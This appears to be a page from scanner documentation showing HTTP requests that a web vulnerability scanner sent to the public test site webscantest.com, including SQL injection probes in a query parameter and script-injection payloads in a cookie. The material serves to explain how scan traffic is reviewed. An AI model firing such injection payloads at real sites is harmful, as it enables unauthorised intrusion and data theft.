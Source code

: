 ```
GET /datastore/search_get_by_name.php?name=Rake HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.24 Safari/537.36
X-RTC-AUTH: R7_IAS
X-RTC-SCANID: ffef3ef3-c05f-4b92-929c-4ecec41eb022
Host: webscantest.com
Referer: http://webscantest.com/datastore/
Cookie: TEST_SESSIONID=ansetkilt12c3itf341m7uscs2; NB_SRVID=srv36063239
X-RTC-REQUESTID: {F668CC2D-09E9-4230-BEEC-BEB664814846}
```

The attack traffic requests too:

```
GET /datastore/search_get_by_name.php?name=Rake%27 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.24 Safari/537.36
X-RTC-AUTH: R7_IAS
X-RTC-SCANID: ffef3ef3-c05f-4b92-929c-4ecec41eb022
Host: webscantest.com
Referer: http://webscantest.com/datastore/
Cookie: last_search=%3Cscript%3Ealert%6014532645%60%3C%2Fscript%3E; TEST_SESSIONID=ansetkilt12c3itf341m7uscs2; NB_SRVID=srv36063239
X-RTC-REQUESTID: {FECC5626-DFF0-4A78-A29A-FCA051ABC610}
X-RTC-ATTACKTYPE: SQLInjection
```

```
GET /datastore/search_get_by_name.php?name=SELECT%20*%20FROM%20inventory%20WHERE%20name%20%3D%20%26%23039%3BRake%26%23039%3B%26%23039%3B%0A%09%09%09%09%09%09%3Ctr%20style%3D%22height:20%25%3B%20vertical-al HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.24 Safari/537.36
X-RTC-AUTH: R7_IAS
X-RTC-SCANID: ffef3ef3-c05f-4b92-929c-4ecec41eb022
Host: webscantest.com
Referer: http://webscantest.com/datastore/
Cookie: last_search=%F6%3Cscript%3Eprompt%6014532652%60%3C%2Fscript%3E; TEST_SESSIONID=ansetkilt12c3itf341m7uscs2; NB_SRVID=srv36063239
X-RTC-REQUESTID: {16C58994-20A3-4D0B-8438-D25D6190F9A9}
X-RTC-ATTACKTYPE: SQLInjection
```

Each of such vulnerabilities and their attack traffic request and reponse can be assessed. The number of attack traffic varies form vulnerability to vulnerability.
